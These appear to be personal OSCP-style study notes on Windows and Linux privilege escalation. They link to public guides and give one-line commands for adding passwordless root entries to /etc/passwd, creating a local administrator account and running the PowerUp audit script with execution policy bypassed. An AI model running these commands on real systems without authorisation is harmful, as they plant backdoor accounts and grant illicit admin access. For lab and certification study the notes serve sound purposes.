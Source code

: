 https://github.com/xxooxxooxx/xxooxxooxx.github.io/wiki/OSCP-Survival-Guide#windows-privilege-escalation 

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/98124178dbb3006e7f9df09d4b972314cd2ba96b/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md 

https://github.com/DigitalAftermath/EnumerationVisualized/wiki 

https://github.com/gammathc/oscp_material/blob/master/oscp_notes.txt 

 
# Windows Priv Esc

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/98124178dbb3006e7f9df09d4b972314cd2ba96b/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md 

 
# Add root user to etc/passwd

2.6 

mike::0:0:root:/root:/bin/bash 

3.10 

ricky::0:0::/home/ricky:/bin/bash 


# Active Directory

https://adsecurity.org/?p=2362 


# Revert to older git commit 

git checkout f3b46ccb 


# Add new admin on windows

net user /add mike password 

net localgroup administrators mike /add 


# Powershell Commands 

https://techvomit.net/useful-powershell-commands/ 

powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks | Out-File -Encoding ASCII checks.txt}" 

powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}" 
